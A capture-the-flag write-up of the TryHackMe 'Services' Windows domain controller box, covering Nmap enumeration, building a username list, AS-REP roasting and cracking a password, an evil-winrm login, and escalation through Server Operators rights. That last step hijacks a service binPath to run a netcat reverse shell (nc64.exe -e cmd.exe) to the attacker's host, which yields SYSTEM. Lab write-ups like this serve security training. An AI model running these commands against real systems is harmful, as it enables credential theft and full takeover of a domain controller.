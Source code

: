 # THM - Services

#### Ip: 10.10.181.162
#### Name: Services
#### Rating: Intermediate

------------------------------------------------

![thm_services_pic.png](../assets/services_assets/thm_services_pic.png)


#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.181.162       
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-18 10:44 CST
Warning: 10.10.181.162 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.181.162
Host is up (0.13s latency).
Not shown: 65405 closed tcp ports (reset), 101 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Above Services
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-18 16:45:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SERVICES
|   NetBIOS_Domain_Name: SERVICES
|   NetBIOS_Computer_Name: WIN-SERVICES
|   DNS_Domain_Name: services.local
|   DNS_Computer_Name: WIN-SERVICES.services.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-12-18T16:46:18+00:00
|_ssl-date: 2024-12-18T16:46:27+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-SERVICES.services.local
| Not valid before: 2024-12-17T16:41:15
|_Not valid after:  2025-06-18T16:41:15
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-SERVICES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-18T16:46:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.11 seconds
```

Lets update our `/etc/hosts` file:
```
10.10.181.162   services.local WIN-SERVICES.services.local
```

Looks like we've got a Domain Controller here.

Looking at the website on port 80 we find an `/about.html` which lists a few employees, and luckily for us also gives us the username naming convention.

![thm_services_about.png](../assets/services_assets/thm_services_about.png)

Lets use this to create a usernames list:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ cat users.txt   
j.doe
j.rock
w.masters
j.larusso
administrator
```

(always a good idea to just tack on administrator as well to lists like these for Windows targets)

### Exploitation

Using this list we find we can as-rep roast the j.rock user:

![thm_services_asrep.png](../assets/services_assets/thm_services_asrep.png)

Lets add this to a file called j.rock_hash and try cracking it with John.

Nice, that worked:

![thm_services_john.png](../assets/services_assets/thm_services_john.png)

`j.rock:Serviceworks1`

We can use evil-winrm to login:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ evil-winrm -i 10.10.181.162 -u j.rock -p 'Serviceworks1'
```

And grab the user.txt flag:

![thm_services_user.png](../assets/services_assets/thm_services_user.png)

### Privilege Escalation

Running `whoami /all` we see our user is in the Server Operators group:

![thm_services_group.png](../assets/services_assets/thm_services_group.png)

We should be able to abuse this for root access.

First let's see what services are running:

```
*Evil-WinRM* PS C:\temp> services

Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS             
"C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                   True AmazonSSMAgent   
"C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                     True AWSLiteAgent     
"C:\Program Files\Amazon\cfn-bootstrap\winhup.exe"                                   True cfn-hup          
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller 
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\NisSrv.exe"        True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\MsMpEng.exe"       True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc 
```

We can then upload a copy of nc64.exe:

```
*Evil-WinRM* PS C:\temp> upload ~/Tools/AD/nc64.exe
Info: Uploading ~/Tools/AD/nc64.exe to C:\temp\nc64.exe

                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!
```

Let's then update the service path, stop it, and then start it again:

```
*Evil-WinRM* PS C:\temp> sc.exe config cfn-hup binPath="C:\temp\nc64.exe -e cmd.exe 10.6.72.91 445"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\temp> sc.exe stop cfn-hup
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\temp> sc.exe start cfn-hup
```

This catches us a shell back as system in our listener:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ nc -lnvp 445                                        
listening on [any] 445 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.181.162] 59624
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami 
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
WIN-SERVICES
```

We can now grab the root.txt flag:

![thm_services_root.png](../assets/services_assets/thm_services_root.png)

Thanks for following along!

-Ryan

---------------------------------------
